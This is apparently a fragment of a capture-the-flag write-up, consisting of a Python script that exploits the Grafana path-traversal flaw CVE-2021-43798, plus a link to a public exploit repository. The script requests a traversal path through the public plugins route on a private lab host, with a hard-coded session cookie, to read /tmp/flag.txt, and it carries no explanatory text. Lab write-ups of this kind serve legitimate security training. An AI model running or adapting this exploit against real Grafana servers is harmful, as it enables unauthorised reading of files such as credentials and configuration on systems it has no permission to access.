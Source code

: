 ```python
import base64, urllib.parse, requests

URL = "http://10.10.0.109:3000"
LFI = "/public/plugins/welcome/../../../../../../../../tmp/flag.txt"
COOKIE = {"grafana_session":"e64162f1657748b100ff79eefaefb769"}

r = requests.get(URL + LFI, cookies=COOKIE)
print(r.text)
```

## 
- https://github.com/jas502n/Grafana-CVE-2021-43798